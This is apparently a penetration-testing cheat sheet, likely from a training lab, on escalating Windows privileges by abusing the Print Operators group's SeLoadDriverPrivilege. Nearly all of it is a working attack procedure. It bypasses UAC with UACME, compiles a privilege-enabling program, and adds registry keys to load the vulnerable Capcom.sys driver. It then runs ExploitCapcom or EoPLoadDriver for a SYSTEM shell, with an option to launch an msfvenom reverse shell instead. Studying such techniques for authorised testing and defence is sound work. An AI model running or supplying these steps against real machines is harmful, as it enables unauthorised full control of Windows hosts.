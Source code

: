 Print Operators grants its members the `SeLoadDriverPrivilege`
**If we issue the command whoami /priv, and don't see the SeLoadDriverPrivilege from an unelevated context, we will need to bypass UAC.**
## Command Line
```
https://github.com/hfiref0x/UACME
```
Check UAC Bypass tab
## GUI
Open an administrative command shell and input the credentials of the account that is a member of the Print Operators group
## SeLoadDriverPrivilege is visible but disabled.
Capcom.sys contains functionality to allow any user to execute shellcode with SYSTEM privileges. We can use our privileges to load this vulnerable driver and escalate privileges. 
1. Download https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp and edit it pasting over the includes below
```
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```
2. Next, from a Visual Studio 2019 Developer Command Prompt, compile it using cl.exe.
```
C:\Users\mrb3n\Desktop\Print Operators>cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```
3. download the Capcom.sys driver from https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys, and save it to C:\temp
4. Issue the commands below to add a reference to this driver under our HKEY_CURRENT_USER tree
```
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
```
```
reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```
5. Run the EnableSeLoadDriverPrivilege.exe binary
	1. Verify Privilege is Enabled
	2. Verify Capcom Driver is Listed
```
.\DriverView.exe /stext drivers.txt
```
```
cat drivers.txt | Select-String -pattern Capcom
```
```
C:\tools\Capcom.sys
```
6. Use `ExploitCapcom` Tool to Escalate Privileges
```
https://github.com/tandasat/ExploitCapcom
```
7. compile it with Visual Studio
```
PS C:\> .\ExploitCapcom.exe
```
## Alternate Exploitation - No GUI
If we do not have GUI access to the target, we will have to modify the ExploitCapcom.cpp code before compiling.
Here we can edit line 292 and replace `"C:\\Windows\\system32\\cmd.exe"` with, say, a reverse shell binary created with msfvenom, for example: c:\ProgramData\revshell.exe
The CommandLine string in this example would be changed to:
```
TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```
We would set up a listener based on the msfvenom payload we generated and hopefully receive a reverse shell connection back when executing ExploitCapcom.exe. If a reverse shell connection is blocked for some reason, we can try a bind shell or exec/add user payload.
## Automating with EopLoadDriver
use a tool such as EoPLoadDriver to automate the process of enabling the privilege, creating the registry key, and executing NTLoadDriver to load the driver. To do this, we would run the following:
```
https://github.com/TarlogicSecurity/EoPLoadDriver/
```
```
C:\htb> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
```
We would then run ExploitCapcom.exe to pop a SYSTEM shell or run our custom binary.